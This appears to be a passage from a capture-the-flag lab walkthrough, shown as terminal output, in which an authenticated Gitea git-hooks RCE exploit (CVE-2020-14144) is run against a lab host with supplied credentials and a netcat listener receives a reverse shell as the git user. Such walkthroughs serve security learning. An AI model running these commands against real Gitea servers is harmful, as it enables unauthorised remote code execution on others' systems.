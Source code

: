 ```bash
┌──(root㉿kali)-[/home/kali/Downloads]
└─# python3 CVE-2020-14144-GiTea-git-hooks-rce.py  -t http://192.168.0.108:3000 -u achilles -p h2sBr9gryBunKdF9 -I 192.168.0.112 -P 1234
    _____ _ _______
   / ____(_)__   __|             CVE-2020-14144
  | |  __ _   | | ___  __ _
  | | |_ | |  | |/ _ \/ _` |     Authenticated Remote Code Execution
  | |__| | |  | |  __/ (_| |
   \_____|_|  |_|\___|\__,_|     GiTea versions >= 1.1.0 to <= 1.12.5

[+] Starting exploit ...
*** Please tell me who you are.

Run

  git config --global user.email "you@example.com"
  git config --global user.name "Your Name"
  
----------------------------------------------------------------------------------------------------------------------------------------



┌──(root㉿kali)-[/home/kali/Downloads]
└─# git config --global user.email "you@example.com"


┌──(root㉿kali)-[/home/kali/Downloads]
└─# git config --global user.name "Your Name"

┌──(root㉿kali)-[/home/kali/Downloads]
└─# python3 CVE-2020-14144-GiTea-git-hooks-rce.py  -t http://192.168.0.108:3000 -u achilles -p h2sBr9gryBunKdF9 -I 192.168.0.112 -P 1234
    _____ _ _______
   / ____(_)__   __|             CVE-2020-14144
  | |  __ _   | | ___  __ _
  | | |_ | |  | |/ _ \/ _` |     Authenticated Remote Code Execution
  | |__| | |  | |  __/ (_| |
   \_____|_|  |_|\___|\__,_|     GiTea versions >= 1.1.0 to <= 1.12.5

[+] Starting exploit ...
Writing objects: 100% (3/3), 245 bytes | 245.00 KiB/s, done.
[+] Exploit completed !
```
-------------------------------------
```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.0.112] from (UNKNOWN) [192.168.0.108] 32978
[git@symfonos6 vuln.git]$

```
